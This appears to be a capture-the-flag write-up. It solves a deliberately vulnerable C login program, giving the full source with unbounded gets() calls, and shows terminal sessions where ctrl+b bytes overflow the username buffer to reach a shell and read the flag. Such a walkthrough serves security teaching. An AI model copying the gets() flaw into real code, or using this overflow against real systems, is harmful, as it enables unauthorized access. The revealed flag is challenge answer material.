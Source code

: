 Question:
>Here's the VR gear admin console. See if you can figure out a way to log in. The problem is found here: /problems/5206d6e095708fbcc2dfa33cd2a8b819

Hints:
>What happens if you read in more characters than the length of the username buffer?
>You should look at an ascii table to see what character you need to choose.
>Numbers are stored in little-endian format, which means that the lowest byte of the number is first.
>"cat file - | vrgearconsole " will keep the pipe open for commands.

Here's the code for vrgearconsole.c:

```
                                                          
#include <stdlib.h>
#include <stdio.h>
                                                            
int login() {
    int accessLevel = 0xff;
    char username[16];
    char password[32];
    printf("Username (max 15 characters): ");
    gets(username);                                         
    printf("Password (max 31 characters): ");
    gets(password);                                         
                                                            
    if (!strcmp(username, "admin") && !strcmp(password, "{{ create_long_password() }}")) {
        accessLevel = 2;                                    
    } else if (!strcmp(username, "root") && !strcmp(password, "{{ create_long_password() }}")) {  
        accessLevel = 0;                                    
    } else if (!strcmp(username, "artist") && !strcmp(password, "my-password-is-secret")) {
        accessLevel = 0x80;                                 
    }                                                       
                                                            
    return accessLevel;
}                                                           
                                                            
int main(int argc, char **argv) {
    setbuf(stdout, NULL);
    printf(
    "+----------------------------------------+\n"
        "|                                        |\n"
        "|                                        |\n"
        "|                                        |\n"
        "|                                        |\n"
        "|  Welcome to the VR gear admin console  |\n"
        "|                                        |\n"
        "|                                        |\n"
        "|                                        |\n"
        "|                                        |\n"
        "+----------------------------------------+\n"
        "|                                        |\n"
        "|      Your account is not recognized    |\n"
        "|                                        |\n"
        "+----------------------------------------+\n"
        "\n\n\n\n"
        "Please login to continue...\n\n\n"
    );                                                      
    int access = login();
                                                            
    printf("Your access level is: 0x%08x\n", access);
                                                            
    if (access >= 0xff || access <= 0) {
        printf("Login unsuccessful.\n");
        exit(10);                                           
    } else if (access < 0x30) {
        printf("Admin access granted!\n");
        printf("The flag is in \"flag.txt\".\n");
        system("/bin/sh");
    } else {
        printf("Login successful.\n");
        printf("You do not have permission to access this resource.\n"); 
        exit(1);                                            
    }                                                       
}         
```

So, the program will assume access if `access` is less than `0x30` (48), but greater than 0.
There are 3 accounts we can log into: `admin`, `root`, and `artist`
If all we need is access, why do we need to log into the admin account? Everything we need to access the artist account is already hardcoded into the program. We can even access it:

```
$ ./vrgearconsole                                         
+----------------------------------------+                  
|                                        |                  
|                                        |                  
|                                        |                  
|                                        |                  
|  Welcome to the VR gear admin console  |                  
|                                        |                  
|                                        |                  
|                                        |                  
|                                        |                  
+----------------------------------------+                  
|                                        |                  
|      Your account is not recognized    |                  
|                                        |                  
+----------------------------------------+                  
                                                            
                                                            
                                                            
                                                            
Please login to continue...                                 
                                                            
                                                            
Username (max 15 characters): artist                        
Password (max 31 characters): my-password-is-secret         
Your access level is: 0x00000080                            
Login successful.                                           
You do not have permission to access this resource. 
$
```

Cool. We made it into the account. Now we just have to overwrite the access variable.
You may notice that this program uses `gets()` to retrieve data from the buffer. `gets()` is a very vulnerable way to do this because it basically reads until it finds a new line or hits an error. So, we can easily overflow the buffer.
Don't quote me on that, though.

Anyway, we want to use it to overwrite the `access` variable. Since the username buffer is shorter, I will overload it with ctrl+b. Ctrl+b has a hex code of 0x2, which is within the access range.

```
$ ./vrgearconsole                                         
+----------------------------------------+                  
|                                        |                  
|                                        |                  
|                                        |                  
|                                        |                  
|  Welcome to the VR gear admin console  |                  
|                                        |                  
|                                        |                  
|                                        |                  
|                                        |                  
+----------------------------------------+                  
|                                        |                  
|      Your account is not recognized    |                  
|                                        |                  
+----------------------------------------+                  
                                                            
                                                            
                                                            
                                                            
Please login to continue...                                 
                                                            
                                                            
Username (max 15 characters): artist^B^B^B^B^B^B^B^B^B^B^B  
Password (max 31 characters): my-password-is-secret         
Your access level is: 0x00000002                            
Admin access granted!                                       
The flag is in "flag.txt".                                  
$ ls                                                        
flag.txt  vrgearconsole  vrgearconsole.c                    
$ cat flag.txt                                              
2ec38579232114dd2d235f797030af43                                                                               
$ pwd                                                       
/problems/5206d6e095708fbcc2dfa33cd2a8b819
```
^B is the way that ctrl+b shows up in text form. 

Anyway, the flag is `2ec38579232114dd2d235f797030af43`
